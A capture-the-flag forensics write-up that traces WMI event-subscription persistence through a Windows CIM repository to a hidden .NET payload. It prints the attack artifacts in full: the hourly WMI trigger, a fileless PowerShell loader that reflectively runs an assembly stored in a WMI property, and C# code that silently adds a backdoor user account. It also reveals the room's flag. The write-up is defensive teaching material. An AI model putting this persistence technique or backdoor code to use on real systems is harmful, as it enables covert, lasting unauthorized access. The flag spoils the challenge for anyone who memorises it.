

# TryHackMe — After Hours (`hh-afterhours-b090d1f0`) Forensics & Reverse Engineering Write-Up

## Overview
- **Room**: After Hours ([`hh-afterhours-b090d1f0`](https://tryhackme.com/r/room/hh-afterhours-b090d1f0))
- **Event**: TryHackMe Hacker Holidays 2026 (Day 12 — Byte Lotus Resort Storyline)
- **Difficulty**: Medium
- **Category**: Digital Forensics & Incident Response (DFIR) / Windows Persistence / Reverse Engineering
- **Artifacts**: `attachments.zip` (`OBJECTS.DATA`, `INDEX.BTR`, `MAPPING1.MAP`, `MAPPING2.MAP`, `MAPPING3.MAP`)
- **Scenario**: *"Bar closed. Guests asleep. Something on the network just clocked in for a shift off the rotation."* Something has been authenticating to the Byte Lotus Resort's back-office systems long after the night-shift technician clocked out. Standard persistence checks across Startup folders, Scheduled Tasks, and Registry `Run` keys came back clean. Our objective is to analyze the raw system artifacts, uncover the hidden fileless persistence mechanism, extract and reverse-engineer the embedded .NET payload, and recover the flag.

---

## Summary of Findings & Answers

| Artifact / Stage | Indicator / Value |
|---|---|
| **Artifact Type** | Windows WMI / CIM Repository (`C:\Windows\System32\wbem\Repository\`) |
| **WMI Event Filter** | `EngineTelemetryFilter` (`root\cimv2`) |
| **Trigger Condition (WQL)** | `SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Minute = 30` |
| **WMI Event Consumer** | `CommandLineEventConsumer` (`cmd /C powershell.exe -Sta -Nop -Window Hidden -enc ...`) |
| **Payload Storage Class** | `ROOT\cimv2:Win32_HardwareTelemetry` &rarr; Property `ConfigData` |
| **Payload Compression** | Base64 + Raw `DeflateStream` (headerless DEFLATE, `wbits = -15`) |
| **Embedded Binary** | `updates.exe` (PE32 .NET Assembly, namespace `AfterHours`, class `Program`) |
| **Execution Guardrail** | `Environment.MachineName.Equals("bytelotusdc", StringComparison.OrdinalIgnoreCase)` |
| **Backdoor Command** | `cmd.exe /c net user patch VEhNe1A0dGNoX29wM25lZF90aDNfQmFjS2QwMHJ9 /add` |
| **Flag** | `THM{P4tch_op3ned_th3_BacKd00r}` |

---

## Attack Chain Architecture



---

## Detailed Step-by-Step Walkthrough

### Phase 1: Identifying the Forensic Artifacts

1. Unpack the challenge archive:
   ```bash
   unzip attachments.zip
   ls -la
   ```
   ```text
   INDEX.BTR       (5.0 MB)
   MAPPING1.MAP    (78 KB)
   MAPPING2.MAP    (78 KB)
   MAPPING3.MAP    (78 KB)
   OBJECTS.DATA    (24 MB)
   ```
2. **Artifact Triage**:
   This exact five-file structure is the on-disk **Windows Management Instrumentation (WMI) CIM Repository** located at `C:\Windows\System32\wbem\Repository\`:
   - **`OBJECTS.DATA`**: Stores serialized WMI class definitions, namespaces, and object instance values.
   - **`INDEX.BTR`**: B-tree index mapping WMI object paths to record offsets inside `OBJECTS.DATA`.
   - **`MAPPING1.MAP` – `MAPPING3.MAP`**: Transaction page-mapping tables used to map logical page numbers to physical offsets in `OBJECTS.DATA`.

3. Because standard persistence mechanisms (Scheduled Tasks, Registry `Run` keys, Startup folders) were clean, the presence of the WMI repository immediately points to **MITRE ATT&CK T1546.003 — Event Triggered Execution: WMI Event Subscription**.

---

### Phase 2: Hunting WMI Event Subscriptions in `OBJECTS.DATA`

A persistent WMI subscription requires three linked components:
1. **`__EventFilter`**: A WQL query defining *when* to trigger.
2. **`__EventConsumer`** (`CommandLineEventConsumer` or `ActiveScriptEventConsumer`): Defines *what* action to execute.
3. **`__FilterToConsumerBinding`**: Binds the filter to the consumer.

#### Step 1: Extracting ASCII and UTF-16LE Strings
WMI stores class names and ASCII blobs in 8-bit encoding while storing many instance property strings in UTF-16LE. Extract both string encodings from `OBJECTS.DATA`:

```bash
strings -a -n 6 OBJECTS.DATA > ascii.txt
strings -a -el -n 6 OBJECTS.DATA > utf16.txt
```

#### Step 2: Locating the Malicious `__EventFilter`
Search for WQL `SELECT` queries and `EventFilter` instances inside the extracted strings:

```bash
grep -EIn "SELECT \* FROM|EventFilter|Win32_LocalTime" ascii.txt utf16.txt
```

This reveals a deceptive filter named **`EngineTelemetryFilter`** registered inside `root\cimv2`:
```sql
SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Minute = 30
```
- **How the trigger works**: It polls `Win32_LocalTime` every 60 seconds and triggers whenever the system clock reaches minute `30` (`HH:30`), executing the backdoor once every hour with `SYSTEM` privileges.

---

### Phase 3: Recovering and Decoding the Fileless PowerShell Loader

#### Step 3: Locating the `CommandLineEventConsumer`
Search for `powershell` or long Base64-encoded strings in `ascii.txt` and `utf16.txt`:

```bash
grep -EIn "[A-Za-z0-9+/]{80,}={0,2}" ascii.txt utf16.txt
```

This surfaces the `CommandLineEventConsumer` command line:
```powershell
cmd /C powershell.exe -Sta -Nop -Window Hidden -enc JABmAGkAbABlACAAPQAgACgAWwBXAG0AaQBDAGwAYQBzAHMAXQAnAFIATwBPAFQAXABjAGkAbQB2ADIAOgBXAGkAbgAzADIAXwBIAGEAcgBkAHcAYQByAGUAVABlAGwAZQBtAGUAdAByAHkAJwApAC4AUAByAG8AcABlAHIA...
```

#### Step 4: Decoding the `-enc` (`-EncodedCommand`) Payload
PowerShell's `-EncodedCommand` expects Base64-encoded **UTF-16LE** text. Decoding it via Python or CyberChef (`From Base64` &rarr; `Decode text: UTF-16LE (1200)`) yields the stage-1 fileless loader:

```powershell
$file = ([WmiClass]'ROOT\cimv2:Win32_HardwareTelemetry').Properties['ConfigData'].Value;
$o = New-Object IO.MemoryStream;
$d = New-Object IO.Compression.DeflateStream(
    [IO.MemoryStream][Convert]::FromBase64String($file),
    [IO.Compression.CompressionMode]::Decompress
);
$b = New-Object Byte[](1024);
$r = $d.Read($b, 0, 1024);
while ($r -gt 0) {
    $o.Write($b, 0, $r);
    $r = $d.Read($b, 0, 1024);
}
[Reflection.Assembly]::Load($o.ToArray()).EntryPoint.Invoke($null, @(,[string[]]@())) | Out-Null
```

**Analysis of the Loader**:
1. Rather than reading a binary from the filesystem, the script queries a custom decoy WMI class `ROOT\cimv2:Win32_HardwareTelemetry` and reads its `ConfigData` property.
2. It Base64-decodes `ConfigData` and decompresses the resulting stream using `System.IO.Compression.DeflateStream` (raw, headerless DEFLATE).
3. It reflectively loads the decompressed bytes directly into memory as a .NET assembly via `[Reflection.Assembly]::Load(...)` and invokes its `EntryPoint`.

---

### Phase 4: Carving and Decompressing `Win32_HardwareTelemetry.ConfigData`

#### Step 5: Carving the `ConfigData` Blob from `OBJECTS.DATA`
Right next to the `Win32_HardwareTelemetry` class definition in `OBJECTS.DATA` is the `ConfigData` Base64 string, which starts with `7VZPbFRFGP/`:

```bash
grep '^7VZPbFRFGP/' ascii.txt | head -n 1 > payload.b64
```

#### Step 6: Decompressing the Raw DEFLATE Stream
Because .NET's `DeflateStream` uses **raw DEFLATE** without a zlib header or gzip wrapper, standard `zlib.decompress(data)` will fail unless passed a negative window size (`wbits = -15`):

```python
import base64
import zlib

with open("payload.b64", "rb") as f:
    b64_blob = f.read().strip()

compressed = base64.b64decode(b64_blob)
pe_bytes = zlib.decompress(compressed, -15)  # -15 = raw headerless DEFLATE

with open("payload.exe", "wb") as out:
    out.write(pe_bytes)

print(f"[+] Extracted payload.exe ({len(pe_bytes)} bytes, magic={pe_bytes[:2]})")
```

Verify the carved file type:
```bash
file payload.exe
# payload.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

---

### Phase 5: Reversing the .NET Assembly & Recovering the Flag

#### Step 7: Decompiling `payload.exe` (`updates.exe`)
Opening `payload.exe` in **dnSpy** / **ILSpy** (or inspecting the `#Strings` and `#US` UTF-16LE user-string metadata heaps) reveals the assembly `updates.exe` under namespace `AfterHours`:

```csharp
using System;
using System.Diagnostics;

namespace AfterHours
{
    internal class Program
    {
        private static void Main(string[] args)
        {
            if (string.Equals(Environment.MachineName, "bytelotusdc", StringComparison.OrdinalIgnoreCase))
            {
                ProcessStartInfo processStartInfo = new ProcessStartInfo();
                processStartInfo.FileName = "cmd.exe";
                processStartInfo.Arguments = "/c net user patch VEhNe1A0dGNoX29wM25lZF90aDNfQmFjS2QwMHJ9 /add";
                processStartInfo.WindowStyle = ProcessWindowStyle.Hidden;
                processStartInfo.CreateNoWindow = true;
                Process.Start(processStartInfo);
            }
            else
            {
                Console.WriteLine("Execution halted: Environment mismatch.");
            }
        }
    }
}
```

**Key Observations**:
1. **Execution Guardrail (MITRE ATT&CK T1480)**: The binary checks `Environment.MachineName` against `"bytelotusdc"`. If executed in a sandbox or analyst VM with a different hostname, it prints `"Execution halted: Environment mismatch."` and exits without running the payload.
2. **Backdoor Account Creation (MITRE ATT&CK T1136.001)**: On `bytelotusdc`, it silently spawns `cmd.exe /c net user patch VEhNe1A0dGNoX29wM25lZF90aDNfQmFjS2QwMHJ9 /add` to provision a local user named `patch`.

#### Step 8: Decoding the Final Flag
The password passed to `net user patch ... /add` is Base64-encoded:

```bash
echo "VEhNe1A0dGNoX29wM25lZF90aDNfQmFjS2QwMHJ9" | base64 -d
```

**Output**:
```text
THM{P4tch_op3ned_th3_BacKd00r}
```

---

## Automated Extraction & Solver Script

The complete end-to-end automated solver script is provided in [`solve.py`](./solve.py), which:
1. Parses `OBJECTS.DATA` directly to extract the WMI `__EventFilter`, `CommandLineEventConsumer`, and `-enc` PowerShell loader.
2. Carves the `Win32_HardwareTelemetry.ConfigData` Base64 blob and raw-DEFLATE decompresses the in-memory .NET assembly (`payload.exe`).
3. Parses the UTF-16LE `#US` string heap of the .NET executable to recover the `net user patch` command and Base64-decodes the final flag.
